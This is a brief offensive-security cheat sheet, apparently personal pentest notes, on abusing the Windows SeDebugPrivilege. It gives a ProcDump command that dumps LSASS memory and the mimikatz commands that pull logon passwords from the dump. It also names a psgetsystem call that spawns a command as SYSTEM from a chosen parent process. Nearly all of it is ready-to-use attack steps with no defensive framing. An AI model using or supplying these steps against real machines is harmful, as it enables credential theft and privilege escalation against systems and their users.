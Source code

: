 # SeDebugPrivilege

## Creds

Use ProcDump to dump lsass:

```
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

* Then load it into mimikatz with following commands:
  * `log`
  * `sekurlsa::minidump lsass.dmp`
  * `sekurlsa::logonpasswords` Can also manually create dump file from task manager

## RCE

Use [psgetsystem](https://github.com/decoder-it/psgetsystem)

```
[MyProcess]::CreateProcessFromParent(<system_pid>,<command_to_execute>,"")
```
